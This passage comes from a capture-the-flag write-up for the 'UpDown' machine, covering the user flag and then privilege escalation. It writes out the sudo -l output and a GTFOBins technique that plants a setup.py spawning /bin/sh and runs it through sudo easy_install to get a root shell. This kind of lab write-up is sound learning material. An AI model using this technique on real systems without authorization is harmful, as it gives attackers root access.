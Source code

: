 We can now grab the user.txt flag:

![updown_user_flag.png](../assets/updown_assets/updown_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what developer can run with elevated permissions we find:

```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

Heading to https://gtfobins.github.io/gtfobins/easy_install/#sudo we can grab the commands we'll need:

![updown_gtfo.png](../assets/updown_assets/updown_gtfo.png)

```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
```

This drops us into a root shell where we can grab the final flag:

![updown_root_flag.png](../assets/updown_assets/updown_root_flag.png)
